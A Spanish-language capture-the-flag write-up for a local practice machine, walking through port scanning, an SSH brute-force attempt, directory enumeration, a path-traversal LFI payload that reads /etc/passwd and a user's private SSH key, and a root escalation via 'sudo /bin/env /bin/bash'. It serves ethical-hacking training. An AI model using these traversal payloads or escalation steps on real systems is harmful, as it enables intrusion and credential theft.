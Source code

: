 # 📘 Informe de Pentesting – Máquina *Pntopntobarra*

* **Dificultad:** Fácil
* **Objetivo:** Obtener acceso root en la máquina
* **Descripción:** Máquina vulnerable desplegada en entorno local para prácticas de hacking ético.

![Logo](/Pntopntobarra/Imagenes/Logo.png)

---

## 🧱 Despliegue de la Máquina

La máquina fue descargada como archivo comprimido. Se utilizó el siguiente comando para descomprimirla:

```bash
unzip paradise.zip
```

Luego, se desplegó la máquina con el script de automatización proporcionado:

```bash
sudo bash auto_deploy.sh pntopntobarra.tar
```

![Despliegue](/Pntopntobarra/Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Para comprobar que la máquina está activa, se utilizó el comando `ping`:

```bash
ping -c 4 172.17.0.2
```

![Ping](/Pntopntobarra/Imagenes/Ping.jpeg)

---

## 🔍 Reconocimiento de Puertos

Se ejecutó un escaneo completo de puertos con `nmap` para identificar servicios expuestos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se encontraron abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

![Puertos](/Pntopntobarra/Imagenes/Puertos.jpeg)

Luego, con mi script `extractPorts`, extraje los puertos relevantes y realicé un escaneo más profundo para conocer los servicios y versiones:

```bash
nmap -sC -sV -p 22,80,139,445 172.17.0.2 -oN target.txt
```

![Servicios](/Pntopntobarra/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis del Sitio Web (Puerto 80)

Al ingresar a la página web en el puerto 80, se muestra un mensaje alarmante simulando un ataque o virus, como una técnica de **ingeniería social** para asustar al usuario.

![Página Principal](/Pntopntobarra/Imagenes/Pagina.jpeg)

Esta página continúa mostrando una simulación de eliminación de archivos del sistema.

![Advertencia rm -rf](/Pntopntobarra/Imagenes/Advertenciarm.jpeg)

---

## 🔐 Ataque de Fuerza Bruta SSH (sin éxito)

Intenté un ataque de fuerza bruta al servicio SSH con `hydra`, utilizando un usuario sospechoso (`nico`) y el diccionario `rockyou.txt`, pero no tuvo éxito:

```bash
hydra -l nico -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 20
```

![Hydra](/Pntopntobarra/Imagenes/Hydra.jpeg)

---

## 📁 Enumeración de Directorios Web

Se utilizó `gobuster` para buscar directorios y archivos ocultos en el servidor web:

```bash
gobuster dir -u http://172.17.0.2/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Gobuster](/Pntopntobarra/Imagenes/Gobuster.jpeg)

No se encontraron nuevos archivos útiles directamente, pero la exploración llevó a `ejemplos.php`.

---

## 🐚 Vulnerabilidad LFI (Local File Inclusion)

En `ejemplos.php` se detectó un parámetro vulnerable `images=` que permitía la inclusión de archivos del sistema mediante rutas relativas. Se probó con:

```http
http://172.17.0.2/ejemplos.php?images=../../../../etc/passwd
```

Esto confirmó una **vulnerabilidad LFI**, mostrando el contenido del archivo `/etc/passwd`, incluyendo usuarios como `nico` y `root`.

![LFI detectado](/Pntopntobarra/Imagenes/Vulnerabilidad.jpeg)

---

## 🔑 Obtención de la Clave Privada SSH

Aprovechando el LFI, accedí al archivo de clave privada del usuario `nico`:

```http
http://172.17.0.2/ejemplos.php?images=../../../../home/nico/.ssh/id_rsa
```

![Clave SSH en la web](/Pntopntobarra/Imagenes/codigo.jpeg)

Se copió todo el contenido de la clave sin añadir espacios innecesarios:

```bash
nano id_rsa
chmod 600 id_rsa
```

![Clave Copiada](/Pntopntobarra/Imagenes/Key.jpeg)

Se intentó el acceso por SSH usando esta clave:

```bash
ssh -i id_rsa nico@172.17.0.2
```

¡Acceso exitoso como usuario *nico*!

![Acceso SSH](/Pntopntobarra/Imagenes/SSH.jpeg)

---

## 🚀 Escalada de Privilegios

Con el comando `sudo -l` verifiqué qué comandos podían ejecutarse como root. Se reveló que se puede usar `/bin/env` con privilegios elevados:

```bash
sudo -l
```

El binario `env` puede ejecutarse como root, lo que permite invocar una shell directamente:

```bash
sudo /bin/env /bin/bash
```

Esto concede acceso a una shell **como usuario root**.

![Acceso root](/Pntopntobarra/Imagenes/root.jpeg)

---

## 🏁 Conclusión

La máquina *Pntopntobarra* presenta una secuencia clara de vectores de ataque:

1. LFI que expone archivos internos.
2. Acceso a la clave privada de SSH.
3. Escalada de privilegios mediante un binario mal configurado (`env`).

Este escenario es ideal para principiantes, ya que permite practicar reconocimiento, explotación web, obtención de credenciales y escalada de privilegios de forma guiada y realista.

